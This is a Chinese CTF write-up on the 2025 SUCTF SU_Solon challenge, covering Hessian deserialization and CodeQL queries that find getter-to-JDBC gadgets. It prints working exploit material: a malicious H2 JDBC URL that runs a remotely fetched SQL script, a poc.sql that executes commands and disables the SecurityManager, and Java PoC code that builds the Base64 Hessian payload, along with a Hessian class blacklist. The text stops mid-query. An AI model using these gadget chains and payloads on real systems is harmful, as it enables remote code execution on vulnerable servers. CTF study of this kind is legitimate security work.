# 尝试CodeQL自动化分析2025 SUCTF SU_Solon-先知社区

> **来源**: https://xz.aliyun.com/news/16906  
> **文章ID**: 16906

---

本篇文章尝试通过CodeQL对触发JDBC的可能解进行探究,也是初学CodeQL进行练手的一道题目 SU\_Solon

这是一道非常明确的Hession反序列化的题目

```
package com.example.demo.controller;

import com.caucho.hessian.io.Hessian2Input;
import java.io.ByteArrayInputStream;
import java.util.Base64;
import org.noear.solon.annotation.Controller;
import org.noear.solon.annotation.Mapping;
import org.noear.solon.annotation.Param;

@Controller
/* loaded from: ez-solon.jar:BOOT-INF/classes/com/example/demo/controller/IndexController.class */
public class IndexController {
    @Mapping("/hello")
    public String hello(@Param(defaultValue = "hello") String data) throws Exception {
        byte[] decode = Base64.getDecoder().decode(data);
        Hessian2Input hessian2Input = new Hessian2Input(new ByteArrayInputStream(decode));
        Object object = hessian2Input.readObject();
        return object.toString();
    }
}
```

# 什么是Hession反序列化

Hessian是一个轻量级的remoting onhttp工具，是一个轻量级的Java序列化/反序列化框架，使用简单的方法提供了RMI的功能。 相比WebService，Hessian更简单、快捷。采用的是二进制RPC协议，因为采用的是二进制协议，所以它很适合于发送二进制数据。

RPC协议的一次远程通信过程如下

* 客户端发起请求，并按照RPC协议格式填充信息
* 填充完毕后将二进制格式文件转化为流，通过传输协议进行传输
* 服务端接收到流后，将其转换为二进制格式文件，并按照RPC协议格式获取请求的信息并进行处理
* 处理完毕后将结果按照RPC协议格式写入二进制格式文件中并返回  
  Hession反序列化是基于Field机制的反序列化是通过特殊的native（方法或反射（最后也是使用了native方式）直接对Field进行赋值操作的机制，而不是通过getter、setter方式对属性赋值

## 序列化实现

```
ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output hessianOutput = new Hessian2Output(byteArrayOutputStream);
        hessianOutput.setSerializerFactory(new SerializerFactory());
        hessianOutput.getSerializerFactory().setAllowNonSerializable(true);
        hessianOutput.writeObject(jsonObject);
        hessianOutput.flush();

        byte[] data = byteArrayOutputStream.toByteArray();
        Base64.Encoder encoder = Base64.getEncoder();
        String payload = encoder.encodeToString(data);
        System.out.println(payload);
```

# Hession反序列化和原生反序列化的区别

最显著的区别在于Hession反序列化过程中所需要的类可以不实现**反序列化接口**,这往往扩展了我们的视角

一句化概括就是 `hessian` 序列化对象不用实现`Serializable`接口   
也就是我们编写QL语句时其实不用刻意考虑其实现 `instanceof TypeSerializable`

但是值得注意的是Hession反序列化同时也存在相应的限制  
(请参考su18师傅的博客:<https://su18.org/post/hessian/>)

* kick-off chain 起始方法只能为 hashCode/equals/compareTo 方法；
* 利用链中调用的成员变量不能为 transient 修饰；
* 所有的调用不依赖类中 readObject 的逻辑，也不依赖 getter/setter 的逻辑  
  这几个限制也导致了很多 Java 原生反序列化利用链在 Hessian 中无法使用，甚至 ysoserial 中一些明明是 hashCode/equals/compareTo 触发的链子都不能直接拿来用

# 触发toString



这道题直接就触发了任意类的toString方法作为入口点

  
可以注意到本身依赖包含了`fastjson 1.2.83`和`h2`数据库  
而fastjson最常见在原生反序列化的利用点就是Fastjson的原生链其中`JSONArray/JSONObject`类的`toString`方法可以**转化成触发任意类的getter方法**

而H2数据的JDBC打法最常见的就是通过H2数据库进行初始化时执行一段SQL脚本实现RCE

```
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8000/poc.sql'
```

这里初始化指定`poc.sql`执行

```
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "su18";}';CALL EXEC ('calc')
```

可以实现执行任意命令达到RCE的效果

# 触发任意类的getter实现JDBC连接(编写QL语句)

现在我们的问题转换成了 getter方法如何去触发JDBC链接  
一般而言触发JDBC时通过

```
DriverManager.getConnection()
DataSource.getConnection()
```

实现发起一个JDBC链接  
这里我们有两种实现方案 全局污点分析`TaintTracking2`和`构造查询谓词`  
相对而言构建查询谓词的方法比较简单  
这里我们直接通过构建查询谓词的方式实现 数据流的传递 没有对数据流实现过滤

```
import java
import semmle.code.java.dataflow.FlowSources

class GetterMethod extends Method{
    GetterMethod(){
        getName().matches("get%")
        and not isStatic()
        and getName().length()>3
        and fromSource()
        and hasNoParameters()
        and isPublic()
    }
}
class JDBCMethod extends Method{
    JDBCMethod(){
        this.hasName("getConnection")
        and (this.getDeclaringType().getASupertype*().hasQualifiedName("java.sql","DriverManager")
            or this.getDeclaringType().getASupertype*().hasQualifiedName("javax.sql","DataSource")
            ) 
    }
}
query predicate edges(Method a,Method b){
    a.polyCalls(b)
}
from GetterMethod source,JDBCMethod sink
where edges(source, sink)
select source, source, sink, "$@ $@ to $@ $@" ,
source.getDeclaringType(),source.getDeclaringType().getName(),
source,source.getName(),
sink.getDeclaringType(),sink.getDeclaringType().getName(),
sink,sink.getName()
```

我们可以通过其`getASupertype*()`递归超类实现一个覆盖式的寻找 保证结果的全面性  
直接通过**虚构**查询静态调用目标和动态调度目标  
这里我更加偏向通过实现`Method作为查询子集`  
Callable 父类是 Method (普通的方法)和 Constructor (类的构造方法) 其实用`Callable`方法也是可以的

  
发现有14种查询结果(这里感谢一下F10wers13eiCheng师傅通过trap导入实现构造数据库的方式 太酷了)

## UnpooledDataSource

网上大师傅们的文章都是通过`UnpooledDataSource`的`getConnection`方法实现触发JDBC链接  


```
 @Override // javax.sql.DataSource
    public Connection getConnection() throws SQLException {
        if (this.username == null) {
            return DriverManager.getConnection(this.url);
        }
        return DriverManager.getConnection(this.url, this.username, this.password);
    }
```

实现了getter到JDBC的转换  
也就是我们查询结果的第13个  
  
本地起一个http服务器放我们的恶意sql文件

```
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "su18";}';CALL EXEC ('calc')
```

`python -m http.server 8888`  


但是应该注意这里存在 `SecurityManager` 限制



在网上搜搜就有答案 直接关闭`SecurityManager`就可以了



`System.setSecurityManager(null);`

```
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {System.setSecurityManager(null);Runtime.getRuntime().exec(cmd);return "su18";}';CALL EXEC ('calc')
```

生成反序列化对象

```
package com.example.demo;

import com.alibaba.fastjson.JSONObject;

import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import org.noear.solon.data.util.UnpooledDataSource;

import java.io.ByteArrayOutputStream;
import java.util.Base64;

public class poc2 {
    public static void main(String[] args) throws Exception {
        UnpooledDataSource unpooledDataSource = new UnpooledDataSource();
        unpooledDataSource.setUrl("jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8888/poc.sql'");
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("ds", unpooledDataSource);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output hessianOutput = new Hessian2Output(byteArrayOutputStream);
        hessianOutput.setSerializerFactory(new SerializerFactory());
        hessianOutput.getSerializerFactory().setAllowNonSerializable(true);
        hessianOutput.writeObject(jsonObject);
        hessianOutput.flush();

        byte[] data = byteArrayOutputStream.toByteArray();
        Base64.Encoder encoder = Base64.getEncoder();
        String payload = encoder.encodeToString(data);
        System.out.println(payload);
    }
}

```

  
直接就可以实现弹出计算器

## JdbcDataSource

除此之外我们可以尝试寻找其他的触发点  
  
这里我们以`JdbcDataSource`验证我们通过CodeQL找到的对不对

```
package com.example.demo;
import com.alibaba.fastjson.JSONObject;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import org.h2.jdbcx.JdbcDataSource;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.sql.SQLException;
import java.util.Base64;

public class poc1 {
    public static void main(String[] args) throws SQLException, IOException {
        JdbcDataSource ds = new JdbcDataSource();
        ds.setURL("jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8888/poc.sql'");
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("ds", ds);

        jsonObject.toString();

    }
}
```

  
  
这里是可以触发到JDBC连接的   
但是非常遗憾的是在Hession反序列化过程中 `org.h2.jdbcx.JdbcDataSource` 在其中的黑名单中  
  
黑名单列表

```
0 = "aj.org.objectweb.asm."
1 = "br.com.anteros."
2 = "bsh."
3 = "ch.qos.logback."
4 = "clojure."
5 = "com.alibaba.citrus.springext.support.parser."
6 = "com.alibaba.citrus.springext.util.SpringExtUtil."
7 = "com.alibaba.druid.pool."
8 = "com.alibaba.druid.stat.JdbcDataSourceStat"
9 = "com.alibaba.fastjson.annotation."
10 = "com.alibaba.hotcode.internal.org.apache.commons.collections.functors."
11 = "com.alipay.custrelation.service.model.redress."
12 = "com.alipay.oceanbase.obproxy.druid.pool."
13 = "com.caucho.hessian.test.TestCons"
14 = "com.caucho.naming.Qname"
15 = "com.ibatis."
16 = "com.ibm.jtc.jax.xml.bind.v2.runtime.unmarshaller."
17 = "com.ibm.xltxe.rnm1.xtq.bcel.util."
18 = "com.mchange."
19 = "com.mysql.cj.jdbc.admin."
20 = "com.mysql.cj.jdbc.MysqlConnectionPoolDataSource"
21 = "com.mysql.cj.jdbc.MysqlDataSource"
22 = "com.mysql.cj.jdbc.MysqlXADataSource"
23 = "com.mysql.cj.log."
24 = "com.mysql.jdbc.util."
25 = "com.p6spy.engine."
26 = "com.rometools.rome.feed."
27 = "com.sun."
28 = "com.taobao.eagleeye.wrapper."
29 = "com.taobao.vipserver.commons.collections.functors."
30 = "com.zaxxer.hikari."
31 = "flex.messaging.util.concurrent."
32 = "groovy.lang."
33 = "java.awt."
34 = "java.beans."
35 = "java.net.InetAddress"
36 = "java.net.Socket"
37 = "java.net.URL"
38 = "java.rmi."
39 = "java.security."
40 = "java.util.EventListener"
41 = "java.util.jar."
42 = "java.util.logging."
43 = "java.util.prefs."
44 = "java.util.ServiceLoader"
45 = "java.util.StringTokenizer"
46 = "javassist."
47 = "javax.activation."
48 = "javax.imageio."
49 = "javax.management."
50 = "javax.media.jai.remote."
51 = "javax.naming."
52 = "javax.net."
53 = "javax.print."
54 = "javax.script."
55 = "javax.sound."
56 = "javax.swing."
57 = "javax.tools."
58 = "javax.xml"
59 = "jdk.internal."
60 = "jodd.db.connection."
61 = "junit."
62 = "net.bytebuddy.dynamic.loading."
63 = "net.sf.cglib."
64 = "net.sf.ehcache.hibernate."
65 = "net.sf.ehcache.transaction.manager."
66 = "ognl."
67 = "oracle.jdbc."
68 = "oracle.jms.aq."
69 = "oracle.net."
70 = "org.aoju.bus.proxy.provider."
71 = "org.apache.activemq.ActiveMQConnectionFactory"
72 = "org.apache.activemq.ActiveMQXAConnectionFactory"
73 = "org.apache.activemq.jms.pool."
74 = "org.apache.activemq.pool."
75 = "org.apache.activemq.spring."
76 = "org.apache.aries.transaction."
77 = "org.apache.axis2.jaxws.spi.handler."
78 = "org.apache.axis2.transport.jms."
79 = "org.apache.bcel."
80 = "org.apache.carbondata.core.scan.expression."
81 = "org.apache.catalina."
82 = "org.apache.cocoon."
83 = "org.apache.commons.beanutils."
84 = "org.apache.commons.codec."
85 = "org.apache.commons.collections.comparators."
86 = "org.apache.commons.collections.functors."
87 = "org.apache.commons.collections.Transformer"
88 = "org.apache.commons.collections4.comparators."
89 = "org.apache.commons.collections4.functors."
90 = "org.apache.commons.collections4.Transformer"
91 = "org.apache.commons.configuration."
92 = "org.apache.commons.configuration2."
93 = "org.apache.commons.dbcp."
94 = "org.apache.commons.fileupload."
95 = "org.apache.commons.jelly."
96 = "org.apache.commons.logging."
97 = "org.apache.commons.proxy."
98 = "org.apache.cxf.jaxrs.provider."
99 = "org.apache.hadoop.shaded.com.zaxxer.hikari."
100 = "org.apache.http.auth."
101 = "org.apache.http.conn."
102 = "org.apache.http.cookie."
103 = "org.apache.http.impl."
104 = "org.apache.ibatis.datasource."
105 = "org.apache.ibatis.executor."
106 = "org.apache.ibatis.javassist."
107 = "org.apache.ibatis.ognl."
108 = "org.apache.ibatis.parsing."
109 = "org.apache.ibatis.reflection."
110 = "org.apache.ibatis.scripting."
111 = "org.apache.ignite.cache."
112 = "org.apache.ignite.cache.jta."
113 = "org.apache.log.output.db."
114 = "org.apache.log4j."
115 = "org.apache.logging."
116 = "org.apache.myfaces.context.servlet."
117 = "org.apache.myfaces.view.facelets.el."
118 = "org.apache.openjpa.ee."
119 = "org.apache.shiro."
120 = "org.apache.tomcat."
121 = "org.apache.velocity."
122 = "org.apache.wicket.util."
123 = "org.apache.xalan."
124 = "org.apache.xbean."
125 = "org.apache.xpath."
126 = "org.apache.zookeeper."
127 = "org.aspectj."
128 = "org.codehaus.groovy.runtime."
129 = "org.codehaus.jackson."
130 = "org.datanucleus.store.rdbms.datasource.dbcp.datasources."
131 = "org.dom4j."
132 = "org.eclipse.jetty."
133 = "org.geotools.filter."
134 = "org.h2.jdbcx."
135 = "org.h2.server."
136 = "org.h2.value."
137 = "org.hibernate."
138 = "org.javasimon."
139 = "org.jaxen."
140 = "org.jboss."
141 = "org.jdom."
142 = "org.jdom2.transform."
143 = "org.junit."
144 = "org.logicalcobwebs."
145 = "org.mockito."
146 = "org.mortbay.jetty."
147 = "org.mortbay.log."
148 = "org.mozilla.javascript."
149 = "org.objectweb.asm."
150 = "org.osjava.sj."
151 = "org.python.core."
152 = "org.quartz."
153 = "org.slf4j."
154 = "org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder"
155 = "org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor"
156 = "org.springframework.beans.factory.BeanFactory"
157 = "org.springframework.beans.factory.config.PropertyPathFactoryBean"
158 = "org.springframework.beans.factory.support.DefaultListableBeanFactory"
159 = "org.springframework.jndi.support.SimpleJndiBeanFactory"
160 = "org.springframework.orm.jpa.AbstractEntityManagerFactoryBean"
161 = "org.springframework.transaction.jta.JtaTransactionManager"
162 = "org.springframework.jndi.JndiObjectTargetSource"
163 = "org.springframework.beans.factory.config.MethodInvokingFactoryBean"
164 = "org.thymeleaf."
165 = "org.yaml.snakeyaml.tokens."
166 = "pstore.shaded.org.apache.commons.collections."
167 = "sun.print."
168 = "sun.rmi.server."
169 = "sun.rmi.transport."
170 = "weblogic.ejb20.internal."
171 = "weblogic.jms.common."
```

导致我们不能直接利用 `JdbcDataSource`建立连接  
  
`org.h2.jdbcx`全限定类名前缀被过滤了

因此我们重新编写一下QL语句

```

import java
import semmle.code.java.dataflow.FlowSources

class GetterMethod extends Method{
    GetterMethod(){
        getName().matches("get%")
        and not isStatic()
        and getName().length()>3
        and fromSource()
        and hasNoParameters()
        and isPublic()
